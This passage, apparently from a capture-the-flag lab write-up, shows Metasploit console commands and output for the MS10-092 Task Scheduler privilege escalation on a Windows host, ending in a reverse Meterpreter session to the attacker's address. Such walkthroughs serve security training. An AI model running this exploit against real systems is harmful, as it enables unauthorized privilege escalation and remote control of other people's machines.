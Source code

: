 ```


Exploit target:

   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008


msf5 exploit(windows/local/ms10_092_schelevator) > set LHOST tun0
LHOST => tun0
msf5 exploit(windows/local/ms10_092_schelevator) > run
```

We got success!

```
msf5 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.36:4446
[*] Preparing payload at C:\Users\tolis\AppData\Local\Temp\fwnFSzQdncwI.exe
[*] Creating task: IRpnMJUUBVSp
[*] SUCCESS: The scheduled task "IRpnMJUUBVSp" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\IRpnMJUUBVSp...
[*] Original CRC32: 0xc14244c5
[*] Final CRC32: 0xc14244c5
[*] Writing our modified content back...
[*] Validating task: IRpnMJUUBVSp
[*]
[*] Folder: \
[*] TaskName                                 Next Run Time          Status
[*] ======================================== ====================== ===============
[*] IRpnMJUUBVSp                             1/7/2020 8:42:00 ▒▒    Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "IRpnMJUUBVSp" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "IRpnMJUUBVSp" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (180291 bytes) to 10.10.10.11
[*] SUCCESS: Attempted to run the scheduled task "IRpnMJUUBVSp".
[*] SCHELEVATOR
[*] Deleting the task...
/usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/activerecord-4.2.11.1/lib/active_record/statement_cache.rb:90: warning: Capturing the given block using Proc.new is deprecated; use `&block` instead
[*] Meterpreter session 2 opened (10.10.14.36:4446 -> 10.10.10.11:49407) at 2020-06-26 23:45:02 +0200
[*] SUCCESS: The scheduled task "IRpnMJUUBVSp" was successfully deleted.
[*] SCHELEVATOR
```
